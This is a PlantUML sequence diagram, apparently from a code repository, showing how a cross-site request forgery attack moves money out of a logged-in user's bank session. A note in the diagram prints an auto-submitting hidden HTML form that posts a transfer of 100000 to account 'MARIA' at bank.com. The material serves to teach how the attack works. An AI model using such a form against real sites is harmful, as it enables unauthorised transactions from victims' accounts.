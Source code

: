 @startuml
hide footbox
actor  "Attacker" as attacker
actor  "Victim" as user
participant "Bank.com" as bank

autonumber 1.1
user -> bank: Login
bank --> user: session-session
... user-session **created!!** and still **valid!!** until expired ...
autonumber stop
== Attack ==
user -> attacker: Visit attacker website, email or ...\n\
then trigger the attacker script
note left
<body onload="document.forms[0].submit()">
    <form action="http://bank.com/transfer.do" method="POST">

    <input type="hidden" name="acct" value="MARIA"/>
    <input type="hidden" name="amount" value="100000"/>
    <input type="submit" value="View my pictures"/>
    </form>
<form...
end note
autonumber 3.1
attacker -> bank: Post transfer money to **account** and **amount**
bank -> bank: Valid **user-session** then transfer to \n\
user-input **account** and user-input **amount**
note left
money transfer to attacker
end note
... user-session still **valid!!** until expired ...
@enduml